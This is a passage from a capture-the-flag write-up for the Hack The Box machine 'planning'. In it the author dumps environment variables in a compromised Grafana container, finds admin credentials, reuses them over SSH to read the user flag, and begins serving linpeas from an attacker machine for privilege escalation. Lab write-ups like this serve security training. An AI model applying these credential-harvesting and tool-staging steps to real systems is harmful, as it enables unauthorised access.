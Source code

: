 
#### User Flag
It seems like I am in a docker environment. After looking for any important information, the only thing I found was when reading the environment variables. I typed 'env' in our shell to see these juicy information:

```nc-listener-access
root@7ce659d667d7:~# env   
env
AWS_AUTH_SESSION_DURATION=15m
HOSTNAME=7ce659d667d7
PWD=/usr/share/grafana
AWS_AUTH_AssumeRoleEnabled=true
GF_PATHS_HOME=/usr/share/grafana
AWS_CW_LIST_METRICS_PAGE_LIMIT=500
HOME=/usr/share/grafana
AWS_AUTH_EXTERNAL_ID=
SHLVL=2
GF_PATHS_PROVISIONING=/etc/grafana/provisioning
GF_SECURITY_ADMIN_PASSWORD=RioTecRANDEntANT!
GF_SECURITY_ADMIN_USER=enzo
GF_PATHS_DATA=/var/lib/grafana
GF_PATHS_LOGS=/var/log/grafana
PATH=/usr/local/bin:/usr/share/grafana/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
AWS_AUTH_AllowedAuthProviders=default,keys,credentials
GF_PATHS_PLUGINS=/var/lib/grafana/plugins
GF_PATHS_CONFIG=/etc/grafana/grafana.ini
_=/usr/bin/env
OLDPWD=/usr/share/grafana/bin
```

It seems like we got a username and password!

Now we'll connect to the machine via ssh:
```ssh-access
ssh enzo@planning.htb
```

Just enter the password and we can now read the user.txt file.
```ssh-access
enzo@planning:~$ ls
user.txt
enzo@planning:~$ cat user.txt
0b4aba13330ecaebde640b38336f3e83
```


#### Privilege Escalation
I tried running 'sudo -l' hoping to find some low hanging fruit but it doesn't work. So I transferred linpeas in the target machine.

First start a python http server in your kali machine in the directory where the linpeas is saved:
```kali-terminal
┌──(kali㉿kali)-[~/Downloads]
└─$ cd /usr/share/peass/linpeas/
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ ls
linpeas_darwin_amd64  linpeas_darwin_arm64  linpeas_fat.sh  linpeas_linux_386  linpeas_linux_amd64  linpeas_linux_arm  linpeas_linux_arm64  linpeas.sh  linpeas_small.sh
┌──(kali㉿kali)-[/usr/share/peass/linpeas]
└─$ python3 -m http.server 8090
Serving HTTP on 0.0.0.0 port 8090 (http://0.0.0.0:8090/) ...
```

